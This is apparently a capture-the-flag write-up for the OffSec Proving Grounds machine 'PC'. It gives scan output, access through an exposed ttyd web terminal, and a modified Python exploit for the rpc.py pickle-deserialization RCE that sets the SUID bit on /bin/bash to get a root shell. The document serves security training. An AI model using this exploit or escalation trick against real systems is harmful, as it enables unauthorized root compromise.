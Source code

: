 # PC

## Intro

PC is an intermediate linux machine from offsec proving grounds.

## Nmap

All tcp port scan.

```
22/tcp   open  ssh      syn-ack ttl 61 OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
8000/tcp open  http-alt syn-ack ttl 61 ttyd/1.7.3-a2312cb (libwebsockets/3.2.0)
```

## Root

There is a terminal on http port 8000, I add a ssh key and login with the key.

There is a python script running as root.

```
/opt/rpc.py
```

ExploitDB.

```
https://www.exploit-db.com/exploits/50983
```

Following changes are made to the exploit.

```python
import requests
import pickle

# Unauthenticated RCE 0-day for https://github.com/abersheeran/rpc.py

HOST = "127.0.0.1:65432"

URL = f"http://{HOST}/sayhi"

HEADERS = {
    "serializer": "pickle"
}


def generate_payload(cmd):

    class PickleRce(object):
        def __reduce__(self):
            import os
            return os.system, (cmd,)

    payload = pickle.dumps(PickleRce())

    print(payload)

    return payload


def exec_command(cmd):

    payload = generate_payload(cmd)

    requests.post(url=URL, data=payload, headers=HEADERS)


def main():
    # exec_command('curl http://127.0.0.1:4321')
    exec_command('/usr/bin/chmod +s /bin/bash')


if __name__ == "__main__":
    main()
```

After running the exploit.

```
bash -p
```

